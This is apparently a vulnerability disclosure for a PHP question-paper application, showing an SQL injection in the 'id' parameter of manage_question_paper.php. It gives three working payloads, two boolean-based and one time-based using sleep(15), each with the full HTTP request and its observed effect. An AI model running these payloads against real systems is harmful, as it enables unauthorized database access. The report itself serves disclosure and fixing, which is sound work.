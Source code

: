 BUG_Author:0019FF

Vulnerability File: /aqpg/users/question_papers/manage_question_paper.php

GET parameter 'id' exists SQL injection vulnerability

Payload1:id=1' and 999=999 and 'o'='o

```
GET /aqpg/users/question_papers/manage_question_paper.php?id=1%27%20and%20999=999%20and%20%27o%27=%27o HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=gqm4opdrfvm9njhrtmcivvn20b
Connection: close
```

The sql statement is executed correctly

![image](https://github.com/19FF/bug_report/blob/main/sql1.png)

Payload2:id=1' and 999=996 and 'o'='p

```
GET /aqpg/users/question_papers/manage_question_paper.php?id=1%27%20and%20999=996%20and%20%27o%27=%27p HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=gqm4opdrfvm9njhrtmcivvn20b
Connection: close
```

The sql statement was executed incorrectly, causing the page not to be echoed normally

![image](https://github.com/19FF/bug_report/blob/main/sql2.png)

Payload3:id=1' and (select 9 from (select(sleep(15)))b) and 't'='t

```
GET /aqpg/users/question_papers/manage_question_paper.php?id=1%27%20and%20(select%209%20from%20(select(sleep(15)))b)%20and%20%27t%27=%27t HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=gqm4opdrfvm9njhrtmcivvn20b
Connection: close
```

The server response time is 15 seconds

![image](https://github.com/19FF/bug_report/blob/main/sql3.png)
